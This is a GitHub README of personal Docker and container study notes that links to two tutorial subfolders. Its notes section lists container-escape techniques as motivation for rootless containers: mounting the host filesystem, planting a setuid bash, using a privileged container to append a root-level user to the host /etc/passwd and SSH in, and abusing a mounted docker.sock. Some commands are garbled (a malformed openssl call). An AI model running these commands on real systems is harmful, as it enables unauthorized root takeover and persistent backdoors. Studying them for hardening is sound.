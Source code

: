 # CONTAINERS

           ███╗░░░███╗░█████╗░███╗░░██╗██╗░░░██╗███████╗██╗░░░░░     
           ████╗░████║██╔══██╗████╗░██║██║░░░██║██╔════╝██║░░░░░     
           ██╔████╔██║███████║██╔██╗██║██║░░░██║█████╗░░██║░░░░░     
           ██║╚██╔╝██║██╔══██║██║╚████║██║░░░██║██╔══╝░░██║░░░░░     
           ██║░╚═╝░██║██║░░██║██║░╚███║╚██████╔╝███████╗███████╗     
           ╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝░╚═════╝░╚══════╝╚══════╝     

## Objetive
This containers repository contain documentation and study notes for containers concept probes.

## This repository contain the next folders:
1. [README.md - Getting started with docker image for start study docker.]( https://github.com/mgallegoa/conceptsProbes/tree/master/containers/docker-alpine-bash/README.md )
2. [README.md - Docker alpine linux image and install bash.]( https://github.com/mgallegoa/conceptsProbes/tree/master/containers/getting-started-app/README.md )

## Study notes

1. A good example to configure and run docker app (dev and prod), is [this list app project](https://github.com/mgallegoa/conceptsProbes/tree/master/react-ts-list-app)

2. To avoid use ROOTLESS CONTAINERS, 3 ways to hack a Linux machine using docker:
    2.1. docker run -v /:/mnt --rm -it alpine chroot /mnt sh ()
        2.1.1. docker run -v /:/mnt --rm -it ubuntu bash
        2.1.2. cp /bin/bash /mnt/tmp
        2.1.3. chmod +s /mnt/tmp/bash
        2.1.4. (outside of the container run like root) /tmp/bash -p
    2.2. Container con with privileged rights: docker run --privileged --rm -it ubuntu bash
        If want, mount the devise  like local: mount /dev/vda1 /mnt
        
        To allow enter with ssh, create a user and allow ssh
        apt-get install openssl
        openssl -1 -salt r00t password123
        echo 'r00t:$1$r00t039dje873jxjxxjjshgsx0:0:0:,,,:/root:/bin/bash' >> /mnt/etc/passwd

        Now acces with ssh: ssh r00t@64.35.76.252

    2.2. Access from a container with a socket mounted to the host files:
        2.2.1. docker run -v /var/run/docker.sock:/var/run/docker.sock --rm -it ubuntu bash
            ls -alh /var/run/docker.sock
            apt-get install docker.io
            docker ps (Show the container from the host)
            docker run -v /:/mnt --rm -it ubuntu bash


